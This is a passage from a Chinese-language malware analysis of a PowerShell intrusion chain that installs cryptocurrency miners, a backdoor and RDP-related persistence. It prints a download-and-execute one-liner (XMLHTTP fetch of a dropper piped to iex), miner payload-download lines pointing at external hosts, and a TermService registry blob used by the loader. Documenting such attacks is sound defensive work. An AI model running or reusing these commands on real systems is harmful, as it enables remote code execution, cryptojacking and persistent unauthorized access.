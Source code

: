 脚本“ready.ps1”为一些函数设置了一个类，并引发了“get-content.ps1”脚本，该脚本处理安装和设置大量可执行文件以及后门和持久性。它还可以拉入其他文件进行引爆:

```
$g=New-Object -ComObject Msxml2.XMLHTTP;$g.open('GET',"hxxp://88[.]119.171.253/dropper.ps1",$false);$g.send();iex $g.responseText
```

这个 dropper powershell 脚本包含许多层混淆，但最终导致一个脚本将为比特币和 Eth 安装多个矿工机器人。

```
$payloadurl="http://beautyiconltd.cn/ethged.txt"
$configurl="http://beautyiconltd.cn/ethcnf.txt"
$hash=(New-Object Net.Webclient).downloadstring("http://beautyiconltd.cn/ethhsh.txt")
```

# **PowerShell 加载程序**

前面的 Get-Content powershell 文件在结构上与本文[1]中列出的文件非常相似。powershell 文件将多个文件写入与 RDP 服务相关的磁盘，包括用于设置服务的注册表 blob:

```
Windows Registry Editor Version 5.00[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService]
"DependOnService"=hex(7):52,00,50,00,43,00,53,00,53,00,00,00,00,00
"Description"="@%SystemRoot%\\System32\\termsrv.dll,-267"
"DisplayName"="@%SystemRoot%\\System32\\termsrv.dll,-268"
"ErrorControl"=dword:00000001
"FailureActions"=hex:80,51,01,00,00,00,00,00,00,00,00,00,03,00,00,00,14,00,00,\
  00,01,00,00,00,60,ea,00,00,01,00,00,00,60,ea,00,00,00,00,00,00,60,ea,00,00
"ImagePath"=hex(2):25,00,53,00,79,00,73,00,74,00,65,00,6d,00,52,00,6f,00,6f,00,\
  74,00,25,00,5c,00,53,00,79,00,73,00,74,00,65,00,6d,00,33,00,32,00,5c,00,73,\
  00,76,00,63,00,68,00,6f,00,73,00,74,00,2e,00,65,00,78,00,65,00,20,00,2d,00,\
  6b,00,20,00,4e,00,65,00,74,00,77,00,6f,00,72,00,6b,00,53,00,65,00,72,00,76,\
  00,69,00,63,00,65,00,00,00
"ObjectName"="NT Authority\\NetworkService"
"RequiredPrivileges"=hex(7):53,00,65,00,41,00,73,00,73,00,69,00,67,00,6e,00,50,\
  00,72,00,69,00,6d,00,61,00,72,00,79,00,54,00,6f,00,6b,00,65,00,6e,00,50,00,\
  72,00,69,00,76,00,69,00,6c,00,65,00,67,00,65,00,00,00,53,00,65,00,41,00,75,\
  00,64,00,69,00,74,00,50,00,72,00,69,00,76,00,69,00,6c,00,65,00,67,00,65,00,\
  00,00,53,00,65,00,43,00,68,00,61,00,6e,00,67,00,65,00,4e,00,6f,00,74,00,69,\
  00,66,00,79,00,50,00,72,00,69,00,76,00,69,00,6c,00,65,00,67,00,65,00,00,00,\
  53,00,65,00,43,00,72,00,65,00,61,00,74,00,65,00,47,00,6c,00,6f,00,62,00,61,\
  00,6c,00,50,00,72,00,69,00,76,00,69,00,6c,00,65,00,67,00,65,00,00,00,53,00,\
  65,00,49,00,6d,00,70,00,65,00,72,00,73,00,6f,00,6e,00,61,00,74,00,65,00,50,\
  00,72,00,69,00,76,00,69,00,6c,00,65,00,67,00,65,00,00,00,53,00,65,00,49,00,\
  6e,00,63,00,72,00,65,00,61,00,73,00,65,00,51,00,75,00,6f,00,74,00,61,00,50,\
  00,72,00,69,00,76,00,69,00,6c,00,65,00,67,00,65,00,00,00,00,00
"ServiceSidType"=dword:00000001
"Start"=dword:00000003
"Type"=dword:00000020[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService\Parameters]
"ServiceDll"=hex(2):25,00,53,00,79,00,73,00,74,00,65,00,6d,00,52,00,6f,00,6f,\
  00,74,00,25,00,5c,00,53,00,79,00,73,00,74,00,65,00,6d,00,33,00,32,00,5c,00,\
  74,00,65,00,72,00,6d,00,73,00,72,00,76,00,2e,00,64,00,6c,00,6c,00,00,00
"ServiceDllUnloadOnStop"=dword:00000001[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService\Performance]
"Close"="CloseTSObject"
"Collect"="CollectTSObjectData"
"Collect Timeout"=dword:000003e8
"Library"="C:\\Windows\\System32\\perfts.dll"
"Open"="OpenTSObject"
"Open Timeout"=dword:000003e8
"InstallType"=dword:00000001
"PerfIniFile"="tslabels.ini"
"First Counter"=dword:0000238c
"Last Counter"=dword:0000238c
"First Help"=dword:0000238d
```